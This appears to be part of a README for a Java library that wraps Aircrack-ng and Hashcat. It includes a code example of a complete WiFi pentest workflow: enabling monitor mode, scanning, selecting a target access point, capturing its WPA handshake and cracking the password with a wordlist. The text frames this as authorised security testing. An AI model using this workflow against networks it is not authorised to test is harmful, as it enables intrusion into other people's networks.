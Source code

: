 ## 🚀 Production Readiness

### Strengths
✅ Professional libraries (Apache, Spring, Reactor)  
✅ Thread-safe implementations  
✅ Proper error handling  
✅ Logging with SLF4J  
✅ Resource cleanup  

### Considerations
⚠️ External tool dependencies (must be installed)  
⚠️ Requires appropriate permissions (sudo for some operations)  
⚠️ GPU required for optimal Hashcat performance  
⚠️ Legal/ethical use only (see disclaimer)  

---

## 📝 Usage Examples

### Complete WiFi Pentest Workflow

```java
// 1. Enable monitor mode
var monitor = aircrack.enableMonitorMode("wlan0").join();

// 2. Scan networks
var scan = aircrack.startScan(
    monitor.monitorInterface(),
    "scan",
    line -> log.info(line)
).join();

// 3. Select target
WiFiNetwork target = scan.networks().stream()
    .filter(n -> n.ssid().equals("TargetAP"))
    .findFirst().orElseThrow();

// 4. Capture handshake
var handshake = aircrack.captureHandshake(
    monitor.monitorInterface(),
    target.bssid(),
    String.valueOf(target.channel()),
    "capture",
    line -> updateProgress(line)
).join();

// 5. Crack password (with Hashcat for speed)
var crack = hashcat.crackWPA(
    handshake.captureFile(),
    "/usr/share/wordlists/rockyou.txt",
    progress -> updateUI(progress)
).join();

// 6. Result
if (crack.isSuccess()) {
    System.out.println("Password: " + crack.getPasswords().get(0));
}
```

---